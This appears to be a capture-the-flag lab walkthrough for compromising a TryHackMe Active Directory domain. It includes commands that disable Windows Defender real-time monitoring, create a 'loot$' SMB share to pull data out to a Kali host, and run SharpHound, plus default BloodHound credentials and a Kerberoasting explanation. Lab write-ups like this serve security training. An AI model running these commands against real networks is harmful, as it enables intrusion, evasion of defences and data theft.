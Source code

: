 We are now local administrators of the machine, but in order to be able to fully compromise the Active Directory, we need a Domain Administrator account. 

## Disable Windows Defender
- On the Reverse Shell run powershell.
- Run the following code:
	`Set-MpPreference -DisableRealtimeMonitoring $true`
## Map the Active Directory in Bloodhound
### Create a new share folder to exfiltrate information.
1. On Powershell run:
	 `New-SMBShare -name "loot$" -path "c:\users\laura.wood\Downloads" -FullAccess "laura.wood@corp.thereserve.loc"`
		Name  ScopeName Path                          Description
		----  --------- ----                                    -----------
		loot$ *                      c:\users\laura.wood\Downloads
2. On your Kali Machine run:
	`smbclient \\\\10.200.10.22\\loot$ -U laura.wood@corp.thereserve.loc`
		smb: \>

## Getting loot w/ SharpHound
### Upload SharpHound.ps1 from the Kali Machine
`smb: \>put SharpHound.exe`

### Run SharpHound.ps1 on Powershell
`. .\SharpHound.ps1`

`Invoke-Bloodhound -CollectionMethod All -Domain corp.thereserve.loc

> This action will create a zip file.

### Download to the Kali Machine the zip file
`smb: \>get <fileNama>.zip`


## BloodHound Installation

Note: Run the following steps on the Kali Machine.
> https://neo4j.com/docs/operations-manual/current/authentication-authorization/password-and-user-recovery/
  
1. Run the following code on the Kali terminal.
	`neo4j console`
 
2. BloodHound 3.x.x is the version used for tryhackme. You can download it from [here](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.1.0). 
3. Download version of the BloodHound GUI from [https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5](https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5).
4. Unzip the folder.
5. Run BloodHound.
	`./BloodHound --no-sandbox`
	 - Authenticate with the credentials you set up for neo4j.5. bloodhound - default credentials -> neo4j:neo4j
    

	**![](https://lh7-us.googleusercontent.com/3CFfmT79yd1CqyOWo1SQG3NzdqfxzbMP3wJvM12FZEWHNfyX6maAyPRAwZN6cVVjKveIbMSBrsRzdL2itO52A-sUjTV_4Bxr-iwNy7o4ggF1iLz48gr1tSvpXoy0Bc3zsAxvC0R_B52SpdEY8ynD3iQ)**

6. After changing the password go back to bloodhound.

### Import the zip file to Bloodhound
Inside of Bloodhound search for this icon ![](https://lh7-us.googleusercontent.com/Y1BGpDxWmPoNB4AI3ajpCT4xESRuZXP0KO3O2RyurpD04873Kv-YsrAeGrjZo9lR8r11QQevbPE1FlkQPbZo9NAIR1fJBvCj3ETow_nETK74iUxkD10XALLPVc30gidmHccp2536hLQ5Y_9quizRDmU) and import the .zip file.

Note: On some versions of BloodHound the import button does not work. To get around this simply drag and drop the .zip file to folder into Bloodhound to import the .json files.

### Clear Database
If you want to change database or clear the database go to Database->Info and at the bottom of the list you have the buttons to do it.
![[clear_database.png]]

## Kerberos Accounts

![[kerberos_accounts.png]]

> - A Kerberoasting attack is an attack that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name, or SPN. 
> - This attack requires an authenticated domain user to request a Kerberos service ticket from a Ticket Granting Service (TGS). 
> - That ticket is encrypted with the hash of the service account, which you can try to brute force using hashcat, after capturing the TGS ticket.
> - The main advantage of this attack is that you do not require a privileged user to require a TGS, since any Domain user account can be used to request service tickets from the TGS.


## Rubeus

